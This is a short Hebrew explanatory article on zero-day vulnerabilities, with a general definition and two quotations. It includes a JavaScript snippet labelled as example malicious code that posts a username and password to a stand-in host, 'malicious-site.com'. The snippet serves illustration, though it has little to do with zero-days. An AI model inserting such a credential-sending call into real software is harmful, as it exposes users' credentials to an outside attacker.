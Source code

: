 # פגיעויות יום אפס: מהן וכיצד הן משפיעות על אבטחת הסייבר

**פורסם בתאריך**: 28 באוגוסט 2024  
**מאת**: Ofir P.  
**נושא**: A little bit on Zero-Day

---

פגיעויות יום אפס (Zero-Day Vulnerabilities) הן אחד מהאיומים החמורים ביותר בעולם הסייבר. במאמר זה נחקור מהן פגיעויות יום אפס, כיצד הן מתגלות, וההשפעות הרבות שיש להן על אבטחת המידע בארגון.

## מהי פגיעות יום אפס?

פגיעות יום אפס היא פרצה או חולשה בתוכנה או בחומרה שטרם התגלתה על ידי המפתחים. האקרים מנצלים פגיעויות אלו באופן מהיר, לפני שהמפתחים יכולים לשחרר תיקון או עדכון.

### תכונה מרכזית:

- **חדשנות התקפה**: פגיעות יום אפס נוצרת כאשר הקהילה או החברה טרם מודעת לבעיה. זה יוצר חלון זמן מסוכן שבו ההאקרים יכולים לפעול.

"החולשה הכי מסוכנת היא זו שאיננו יודעים על קיומה." — חוקר אבטחת מידע

```javascript
// קוד זדוני לדוגמה
fetch('https://malicious-site.com/exploit', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
    username: 'victim',
    password: 'password123'
  })
})
.then(response => response.json())
.then(data => console.log('Exploited successfully:', data))
.catch(error => console.error('Error:', error));

```
"אל תמתין לפרצה הבאה - הקדם תרופה למכה." — מומחה לאבטחת מידע